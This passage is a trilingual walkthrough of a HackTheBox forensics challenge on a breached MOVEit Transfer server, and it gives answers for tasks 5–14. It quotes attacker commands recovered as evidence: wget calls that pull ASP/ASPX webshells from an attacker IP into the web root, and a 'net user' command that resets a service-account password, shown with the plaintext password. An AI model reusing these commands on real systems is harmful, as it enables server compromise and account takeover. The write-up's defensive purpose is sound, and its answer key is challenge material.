

```plaintext title="Answer"
12/07/2023 11:24:30
```

## Task 5 — Tamaño del ASP fallido / Failed ASP size

> [ZH] 攻击者上传了一个不起作用的 ASP webshell，它的文件大小是多少（以字节为单位）？
> **ES:** El atacante subió un webshell ASP que no funciona: ¿su tamaño en bytes?
> **EN:** The attacker uploaded a non-working ASP webshell: its size in bytes?

> **ES:** En TimelineExplorer, registros bajo `.\MOVEitTransfer\wwwroot` → el `moveit.asp`.
> **EN:** In TimelineExplorer, records under `.\MOVEitTransfer\wwwroot` → `moveit.asp`.



> **ES:** Ahí está el `moveit.asp`.
> **EN:** There sits `moveit.asp`.



```plaintext title="Answer"
1362
```

## Task 6 — Herramienta de enum inicial / Initial enum tool

> [ZH] 攻击者最初用来枚举易受攻击服务器的工具是什么？
> **ES:** ¿Qué herramienta usó el atacante para enumerar al inicio?
> **EN:** Which tool did the attacker use for initial enumeration?

> **ES:** Está en los User-Agent del análisis inicial.
> **EN:** It's in the initial analysis User-Agents.

```plaintext title="Answer"
nmap
```

## Task 7 — Cambio de clave moveitsvc (UTC) / moveitsvc password change (UTC)

> [ZH] 我们怀疑攻击者可能更改了我们服务帐户的密码。请确认发生此情况的时间（UTC）
> **ES:** Se sospecha cambio de clave de la cuenta de servicio: confirmar cuándo (UTC).
> **EN:** Suspected service-account password change: confirm when (UTC).

> **ES:** Ir a la carpeta `User`, identificar la cuenta de servicio `moveitsvc`.
> **EN:** Go to the `User` folder, identify the `moveitsvc` service account.



> **ES:** En memoria, buscar strings con varias keywords (`net user` es lo típico al cambiar claves).
> **EN:** In memory, hunt strings with several keywords (`net user` is typical for password changes).

```bash
┌──(randark ㉿ kali)-[~]
└─$ strings I-like-to-27a787c5.vmem | grep moveitsvc | grep net
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
1C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar\Internet Explorer.lnk
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar\Internet Explorer.lnk
\\?\C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Accessories\Internet Explorer.lnk
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Local\Microsoft\Internet Explorer\CacheStorage\
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar\Internet Explorer.lnk
C:\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar\Internet Explorer.lnk
net user "moveitsvc" 5trongP4ssw0rd
```

> **ES:** Ahí sale el cambio (`net user "moveitsvc" ...`).
> **EN:** There shows the change (`net user "moveitsvc" ...`).

> **ES:** Cruzar con el `Security.evtx` (reset de password = evento 4724).
> **EN:** Cross-check `Security.evtx` (password reset = event 4724).





```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
  <EventID>4724</EventID>
  <Version>0</Version>
  <Level>0</Level>
  <Task>13824</Task>
  <Opcode>0</Opcode>
  <Keywords>0x8020000000000000</Keywords>
  <TimeCreated SystemTime="2023-07-12T11:09:27.8648235Z" />
  <EventRecordID>60772</EventRecordID>
  <Correlation ActivityID="{c2cb8fb7-9dd8-0001-2d90-cbc2d89dd901}" />
  <Execution ProcessID="652" ThreadID="8052" />
  <Channel>Security</Channel>
  <Computer>mover</Computer>
  <Security />
  </System>
- <EventData>
  <Data Name="TargetUserName">moveitsvc</Data>
  <Data Name="TargetDomainName">MOVER</Data>
  <Data Name="TargetSid">S-1-5-21-4088429403-1159899800-2753317549-1006</Data>
  <Data Name="SubjectUserSid">S-1-5-21-4088429403-1159899800-2753317549-1006</Data>
  <Data Name="SubjectUserName">moveitsvc</Data>
  <Data Name="SubjectDomainName">MOVER</Data>
  <Data Name="SubjectLogonId">0x8d5ab</Data>
  </EventData>
  </Event>
```

```plaintext title="Answer"
12/07/2023 11:09:27
```

## Task 8 — Protocolo de acceso remoto / Remote access protocol

> [ZH] 攻击者使用哪种协议远程进入受感染的计算机？
> **ES:** ¿Con qué protocolo entró el atacante al equipo?
> **EN:** Which protocol did the attacker use to reach the box?



```plaintext title="Answer"
RDP
```

## Task 9 — Fecha del acceso remoto / Remote access time

> [ZH] 请确认攻击者远程访问受感染计算机的日期和时间？
> **ES:** Confirmar fecha y hora del acceso remoto.
> **EN:** Confirm the remote access date and time.

> **ES:** Dato del task anterior.
> **EN:** From the previous task.

```plaintext title="Answer"
12/07/2023 11:11:18
```

## Task 10 — UA de acceso al webshell / Webshell access UA

> [ZH] 攻击者用于访问 webshell 的用户代理是什么?
> **ES:** ¿Qué User-Agent usó para acceder al webshell?
> **EN:** Which User-Agent accessed the webshell?

> **ES:** Buscar en el mismo log IIS.
> **EN:** Look in the same IIS log.

```plaintext
2023-07-12 11:19:46 10.10.0.25 GET /moveit.asp - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 - 404 3 50 36
2023-07-12 11:20:37 10.10.0.25 GET /moveit.asp - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 - 404 3 50 35
```

```plaintext title="Answer"
Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0
```

## Task 11 — inst ID del atacante / Attacker inst ID

> [ZH] 攻击者的 inst ID 是什么？
> **ES:** ¿Cuál es el inst ID del atacante?
> **EN:** What is the attacker's inst ID?

> **ES:** Reconstruir la base y consultarlo.
> **EN:** Rebuild the database and query it.



```plaintext title="Answer"
1234
```

## Task 12 — Comando de descarga del webshell / Webshell fetch command

> [ZH] 攻击者运行了什么命令来检索 webshell？
> **ES:** ¿Qué comando corrió para traerse el webshell?
> **EN:** Which command fetched the webshell?

> **ES:** Leer el historial de PowerShell (`ConsoleHost_history.txt`).
> **EN:** Read the PowerShell history (`ConsoleHost_history.txt`).

```plaintext
cd C:\inetpub\wwwroot
wget http://10.255.254.3:9001/moveit.asp
dir
wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
dir
cd C:\MOVEitTransfer\wwwroot
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

```plaintext title="Answer"
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

## Task 13 — Título del webshell / Webshell title

> [ZH] TA 部署的 webshell 的标题头中的字符串是什么？
> **ES:** ¿Qué string lleva el título del webshell desplegado?
> **EN:** Which string is in the deployed webshell's title?

> **ES:** Dato de Task 2.
> **EN:** From Task 2.

```plaintext title="Answer"
awen asp.net webshell
```

## Task 14 — Nueva clave moveitsvc / New moveitsvc password

> [ZH] TA 将我们的 moveitsvc 帐户密码更改为什么？
> **ES:** ¿A qué cambió la clave de moveitsvc?
> **EN:** What did they change the moveitsvc password to?

> **ES:** Dato de Task 7.
> **EN:** From Task 7.

```plaintext title="Answer"
5trongP4ssw0rd
```

## Fuentes / Sources

- Dificultad y categoria: [momenbasel/htb-writeups - Sherlocks index](https://github.com/momenbasel/htb-writeups/blob/main/sherlocks/README.md) - fecha de acceso: 2026-09-24.
- Autor notas: Apuromafo.

---

## ⚠️ Aviso Legal / Disclaimer

> **ES:** Uso educativo y personal únicamente. No afiliado a HackTheBox. Evidencia y respuestas con contexto, no solo la respuesta suelta.
> **EN:** Educational and personal use only. Not affiliated with HackTheBox. Evidence and contextual answers, not bare answers.

_Fecha de edición: 2026-09-24_
